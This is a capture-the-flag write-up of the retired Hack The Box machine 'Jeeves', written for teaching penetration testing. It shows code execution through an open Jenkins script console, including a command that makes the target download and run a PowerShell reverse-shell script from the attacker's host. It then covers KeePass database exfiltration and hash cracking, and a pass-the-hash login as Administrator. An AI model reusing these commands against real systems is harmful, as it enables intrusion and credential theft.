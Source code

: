 # Jeeves

This is the write-up for the box Jeeves that got retired at the 19th May 2018.
My IP address was 10.10.14.29 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.63    jeeves.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/jeeves.nmap 10.10.10.63
```

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h01m15s, deviation: 0s, median: 5h01m14s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-04T23:45:17
|_  start_date: 2020-03-04T22:53:38
```

## Checking HTTP (Port 80)

On the web page on port 80 there is some kind of search engine:

![Ask Jeeves search engine](https://kyuu-ji.github.io/htb-write-up/jeeves/jeeves_web-1.png)

When searching for anything it redirects to _/error.html_ which looks like a Microsoft SQL Server error message but is just an image.
This is a rabbit hole.

## Checking HTTP (Port 50000)

On the web page on port 50000 it shows a HTTP Error 404 from **Jetty** an nothing more.
Lets enumerate hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.63:50000 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the directory _/askjeeves_ which directs us to a **Jenkins** dashboard without authorization.

As we have full control over Jenkins, there are several ways to get code execution.
```markdown
Manage Jenkins --> Script Console
```

![Ask Jeeves search engine](https://kyuu-ji.github.io/htb-write-up/jeeves/jeeves_jenkins-1.png)

In here it is possible to execute **Groovy Script** so lets test out code execution with that:
```markdown
cmd = "whoami"
println cmd.execute().text
```

This outputs the name of the local user _kohsuke_.
So now we can start a reverse shell. I will use the _Invoke-PowerShellTcp.ps1_ script from the **Nishang Framework**:
```markdown
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29/Invoke-PowerShellTcp.ps1')" """
println cmd.execute().text
```

After running this, the listener on my IP and port 9001 starts a reverse shell.

## Privilege Escalation

Now we are the user _kohsuke_ and need an attack surface on the box.
Looking at the files in the home directory _C:\Users\kohsuke_ there is a **KeePass** database in _\Documents_.
I start a SMB server on my local client and mount it on the box, in case there is more to download:
```markdown
# On local client
impacket-smbserver Share `pwd`


# On Jeeves
New-PSDrive -Name "NewShare" -PSProvider "FileSystem" -Root "\\10.10.14.29\Share"
cd NewShare:
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```

This file can be converted into a hash that needs to be cracked:
```markdown
keepass2john CEH.kdbx
```

Cracking it with **Hashcat**:
```markdown
hashcat -m 13400 hash.keepass /usr/share/wordlists/rockyou.txt
```

It gets cracked and the password is:
> moonshine1

There are different passwords in there but the most interesting ones are:
- _DC Recovery PW_ with the username _administrator_ and the password _S1TjAtJHKsugh9oC4VZl_
- _Backup stuff_ with no username and the NTLM hash _aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00_

Trying to login with these credentials:
```markdown
winexe -U jenkins/administrator //10.10.10.63 cmd.exe
```

This does not work so lets try using the NTLM hash for the user _Administrator_ with `pth-winexe`.
```markdown
pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
```

This does a **Pass-The-Hash** attack and logs us in as _Administrator_!

### Looking for the root flag

The flag in the home directory is called _hm.txt_ and has the following content:
> The flag is elsewhere.  Look deeper.

Checking the directory with `dir /r` it seems like the _hm.txt_ file hides the _root.txt_ file via **Alternate Data Stream**.
Using the following command to bypass this:
```markdown
powershell (Get-Content hm.txt -Stream root.txt)
```

This outputs the contents of _root.txt_.
